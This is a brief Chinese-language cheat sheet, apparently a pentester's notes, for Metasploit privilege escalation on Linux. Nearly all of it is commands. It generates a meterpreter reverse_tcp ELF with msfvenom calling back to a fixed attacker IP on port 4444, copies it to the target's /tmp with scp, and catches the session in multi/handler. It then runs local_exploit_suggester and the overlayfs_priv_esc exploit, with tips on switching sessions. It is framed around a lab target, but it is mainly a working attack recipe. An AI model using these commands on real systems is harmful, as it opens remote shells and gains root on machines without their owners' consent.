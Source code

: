 # msf提权
1. 首先攻击机生成反弹shell马
    msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=11.1.1.130 LPORT=4444 -f elf > p.elf

    chmod 777 p.elf
2. scp 命令传送至linux
    scp ./p.elf a@靶机ip:/tmp
3. 打开msf并配置
    use exploit/multi/handler
    set payload  linux/x64/meterpreter/reverse_tcp
    set lhost 本机ip
    run
    background
    use post/multi/recon/local_exploit_suggester
    set session 1
    run
4. 扫描到的payload一个个尝试
    use exploit/linux/local/overlayfs_priv_esc
    set lhost 本机ip
    set session 1
    run
+ tips

background之后可以通过sessions进行查看多个放置到后台的会话，展示会话
    sessions

切换会话
    sessions -i (id)